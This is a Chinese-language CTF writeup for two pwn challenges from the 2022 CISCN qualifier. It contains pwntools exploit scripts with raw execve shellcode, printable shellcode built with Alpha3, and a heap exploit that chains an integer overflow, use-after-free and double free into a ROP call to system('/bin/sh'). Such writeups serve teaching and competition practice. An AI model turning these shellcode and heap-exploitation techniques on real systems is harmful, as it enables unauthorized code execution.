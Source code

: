 ```yaml
---
title: 2022 ciscn初赛 pwn Writeup
date: 2022-05-30 11:52:32 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=24/
pin: false
---
```


![image-20220530115403566](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115403566.png)

## login-nomal(可视化shellcode)

一道类VMpwn，逆出输入方式，发现功能二会开辟一片可执行的空间，直接执行写入的shellcode，这里要绕过isprint，用Alpha3生成可供call跳转执行的可见字符shellcode

![image-20220530115617543](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115617543.png)

![image-20220529191312430](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529191312430.png)

这里讲一下shellcode的生成

先clone一个编译好的alpha3

```bash
git clone https://github.com/TaQini/alpha3.git
```

生成一个shellcode文件

```python
from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc)
```

```bash
python sc.py > shellcode
# 这里要在文件夹外生成，然后拖进alpha3文件夹即可
cd ~/alpha3
./shellcode_x64.sh rdx #利用脚本生成所<call 寄存器>的shellcode，x86同理
```

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process('./login')
elf = ELF("./login")
libc = elf.libc
def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
def send(con):
	sla(">>> ",con)

def login():
	send("opt: 1\n\r"+'msg: ro0t \n\r\n')

def exita():
	send("opt: 3\n\r"+'msg: eX1t \n\r\n')

def copy(con):
	send("opt: 2\n\r"+'msg: '+con+' \n\r\n')

login()
pay = 'Rh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00'
copy(pay)
p.interactive()
```

## newest_note(malloc int溢出)

添加权限，执行程序。添加debug信息，把glibc-all-in-one里下好的debug版本的.build放到/usr/lib/debug下。

```bash
sudo chmod +x newest_note
sudo chmod +x libc.so.6
sudo chmod +x ld-linux-x86-64.so.2

cd /usr/lib/debug
sudo mv .build-id/ .build-id.bak
cd ~
sudo mv ~/.build-id/ /usr/lib/debug
```

![image-20220530115802288](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220530115802288.png)

程序已经patch好了，漏洞点在于malloc时8*了一个int类型，造成溢出，从而实现申请小堆但idx极大，实现了任意地址泄露和任意地址写

![image-20220529191907619](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529191907619.png)

UAF漏洞

![image-20220529192244648](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220529192244648.png)

利用任意地址泄露泄露出栈地址以及libc偏移，free+UAF以及key和heap_base，再用一个doublefree，劫持栈rip执行输入的rop链

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux', log_level='debug')

p = process('./newest_note')
# p = remote("39.107.153.91","30623")
elf = ELF("./newest_note")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(idx,con='a'):
    sla(": ",1)
    sla("Index: ",idx)
    p.sendafter('Content: ',con)

def show(idx):
    sla(": ",3)
    sla("Index: ",idx)

def dele(idx):
    sla(": ",2)
    sla("Index: ",idx)

sla("How many pages your notebook will be? :",str(0x20005000))
show(0x487f5)
stack_addr = uu64()
show(0x4899a)
libc_base = uu64() - 0x218cc0
lg("libc_base")
ret = 0x000000000002d9b9+libc_base
for i in range(10):
    add(i,"a"*0x30)

dele(0)

for i in range(6):
    dele(i+1)

show(0)
ru("Content: ")
key = u64(p.recv(5).ljust(8,'\x00'))
lg("key")
heap_addr = key << 12
lg("heap_addr")

dele(7)
dele(8)
dele(7)

for i in range(7):
    add(i,"a"*0x30)
add(7,p64((stack_addr-0x150-0x8) ^ key ))

add(0,"e4l4")
add(1,"e4l4")
pop_rdi = 0x000000000002e6c5 + libc_base
add(2,p64(0) +p64(ret)+ p64(pop_rdi) + p64(libc_base + libc.search("/bin/sh\x00").next()) + p64(libc_base + libc.sym["system"]) )
p.interactive()
```

